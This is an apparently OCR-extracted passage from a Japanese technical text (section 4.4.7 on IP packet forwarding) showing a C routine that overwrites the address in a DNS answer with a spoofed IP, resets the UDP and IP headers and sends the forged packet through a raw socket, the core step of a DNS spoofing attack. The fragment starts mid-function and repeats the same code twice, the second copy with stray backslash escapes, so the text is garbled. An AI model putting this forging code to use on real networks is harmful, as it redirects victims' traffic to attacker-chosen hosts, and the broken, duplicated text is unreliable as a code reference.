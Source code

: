     37                  memcpy(addrptr - 1, &in_spoofip.s_addr, sizeof(in_spoofip.s_addr));
    38
    39                  /* UDPヘッダー再設定 */
    40                  udp->uh_sum = 0;
    41                  udp->uh_ulen = htons(dnspacketsize);
    42
    43                  ip->ip_len = BSDFIX((ip->ip_hl<<2) + dnspacketsize);
    44
    45          }
    46          /* ip->ip_len を再設定 */
    47          else {
    48                  ip->ip_len = BSDFIX(ntohs(ip->ip_len));
    49          }
    50
    51          if (spoof)
    52                  printf("Sending %d bytes ... ", BSDUFIX(ip->ip_len));
    53
    54          return (sendto(sd, ip, BSDUFIX(ip->ip_len), 0, (struct sockaddr *)&sin,
    55                                          sizeof(struct sockaddr_in)));
    56  }
-----


○4.4.7 IPパケットの転送
=======
    16          udp \= (struct udphdr *)((char *)ip + (ip\->ip_hl<<2));
    17
    18          memset(&sin, 0, sizeof(struct sockaddr_in));
    19          sin.sin_family \= AF_INET;
    20          sin.sin_addr \= ip\->ip_dst;
    21          sin.sin_port \= udp\->uh_dport;
    22
    23          /* アドレス書き換え */
    24          if (spoof) {
    25                  dnspacketsize \= sizeof(struct udphdr) + sizeof(HEADER) +
    26                                   qnamelen + sizeof(QFOOTER) + sizeof(dnscode) + 4;
    27                  /* DNSヘッダー再設定 */
    28                  dns\->ancount \= htons(1);
    29                  dns\->arcount \= 0;
    30                  dns\->nscount \= 0;
    31
    32                  /* 回答へのポインタ */
    33                  ansptr \= (char *)((char *)qf + sizeof(QFOOTER));
    34                  /* アドレスフィールドへのポインタ */
    35                  addrptr \= ansptr + sizeof(dnscode);
    36                  /* 回答書き換え */
    37                  memcpy(addrptr \- 1, &in_spoofip.s_addr, sizeof(in_spoofip.s_addr));
    38
    39                  /* UDPヘッダー再設定 */
    40                  udp\->uh_sum \= 0;
    41                  udp\->uh_ulen \= htons(dnspacketsize);
    42
    43                  ip\->ip_len \= BSDFIX((ip\->ip_hl<<2) + dnspacketsize);
    44
    45          }
    46          /* ip\->ip_len を再設定 */
    47          else {
    48                  ip\->ip_len \= BSDFIX(ntohs(ip\->ip_len));
    49          }
    50
    51          if (spoof)
    52                  printf("Sending %d bytes ... ", BSDUFIX(ip\->ip_len));
    53
    54          return (sendto(sd, ip, BSDUFIX(ip\->ip_len), 0, (struct sockaddr *)&sin,